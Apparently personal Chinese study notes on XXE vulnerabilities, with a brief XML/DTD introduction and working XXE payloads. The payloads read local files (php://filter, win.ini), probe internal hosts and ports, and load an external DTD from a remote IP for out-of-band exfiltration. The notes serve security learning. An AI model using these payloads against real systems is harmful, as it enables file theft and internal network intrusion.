 ### 一、xml簡介
一种存储和传输数据的标签语言。xml不适用预定义的标签，因此可以为标记指定描述数据的名称
文档结构：
	xml文档声明，在文档第一行
	xml文档类型定义
	xml文档元素
dtd文档类型定义：（漏洞产生在文档类型定义处，外部声明dtd处）
	![[Pasted image 20231221090308.png]]

#### xxe漏洞基础：
 ![[Pasted image 20231221090530.png]]
### xxe漏洞利用：
有回显利用：
	读取文件：
```xml
<?xml version= "1.0" encoding= "utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY aaa SYSTEM "php://filter/convert.base64-encode/resource=xxe_1.php" >]>
<name>&aaa;</name>



<!ENTITY aaa SYSTEM "php://filter/convert.base64-encode/resource=xxe_1.php" >]>
<!ENTITY aaa SYSTEM "file:///C:/Windows/win.ini" >]>
```
	![[Pasted image 20231221091455.png]]
	内网探测：
	bp爆破ip的d字段可以探测内网可用主机，bp爆破端口可以探测内网主机开启的端口
```xml
<?xml version= "1.0" encoding= "utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:80">]>
<name>&xxe;</name>
```
	![[Pasted image 20231221091721.png]]

 引入外部实体dtd：
```XML
<!---->
<?xml version= "1.0"?>
<!DOCTYPE test[
<!ENTITY % dtd SYSTEM "http://192.168.43.117/eval.dtd">
%dtd;
]>
<name>&send;</name>
```
	![[Pasted image 20231221092209.png]]
	![[Pasted image 20231221092252.png]]


